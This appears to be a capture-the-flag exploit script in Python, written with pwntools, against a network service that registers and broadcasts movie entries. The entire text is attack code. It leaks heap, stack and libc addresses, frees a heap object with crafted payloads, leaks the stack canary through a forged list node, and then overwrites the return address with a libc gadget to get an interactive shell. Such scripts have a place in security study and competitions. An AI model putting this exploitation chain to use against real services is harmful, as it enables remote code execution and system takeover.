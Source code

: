 ``` python
    c2 = bytes.fromhex('3775C1F1C4A75AE79CE0DE7A5B10802602ABD9B9C96C5F0212C27FDACD0DA3B08CEDFAF3E1A3FDB4EF09E7FBB1439A1DCD91C845E66EFD3DC7BB61D23EF4E03849118569EBCC179C934F40EB3302AD20A4092D7B15FA201DD1DB17CDDD29591E39899EF679469FE68B85C5EFDEC24E46C278759D8B65F450EA21C5D91862FF7B')

    # stack, heap, libc leak
    register(s, a1, 1, 0x3ff, b"A" * 0x3ff)         # index 1
    register(s, a2, 1, 0x400, b"\xff" * 0x400)      # index 2

    l = listen(7777)
    broadcast(s, 1, 0, 1, 7777)
    r = l.recv()

    heap = u32(r[0:4]) - 0x16a0
    stack = u32(r[0x324:0x328])
    libc = u32(r[0x320:0x324]) - 0x1b3da7
    log.info(f"heap : {hex(heap)}")
    log.info(f"stack : {hex(stack)}")
    log.info(f"libc : {hex(libc)}")

    # free(movie_1)
    register(s, b1, 1, 0x4, b"BBBB")                # index 3
    payload = b"C" * 0x400              # buf
    payload += p32(0x400)               # size
    payload += p32(heap + 0x11f8)       # contents, movie_1
    register(s, b2, 1, len(payload), payload)       # index 4

    broadcast(s, 3, 0, 1, 7777)

    # canary leak
    payload = b"DDDD"                   # size
    payload += b"\xff\xff\xff\xff"      # category
    payload += p32(stack + 0xa5)        # name
    payload += p32(heap + 0x16a0)       # next
    payload += b"EEE\x00"               # prev
    register(s, payload, 1, 0x4, b"XXXX")           # index 5

    r = _list(s)
    canary = u32(b"\x00" + r[0x3a:0x3d])
    log.info(f"canary : {hex(canary)}")

    # eip control
    register(s, c1, 1, 0x4, b"FFFF")                # index 6
    payload = b"G" * 0x400              # buf
    payload += p32(0)                   # size
    payload += p32(0)                   # contents
    payload += p32(canary)              # canary
    payload += b"H" * 0xc               # dummy
    payload += p32(libc + 0x5fbd5)      # return
    register(s, c2, 1, len(payload), payload)       # index 7
    
    broadcast(s, 6, 0, 1, 7777)
    
    s.interactive()

if __name__=='__main__':
    main()
```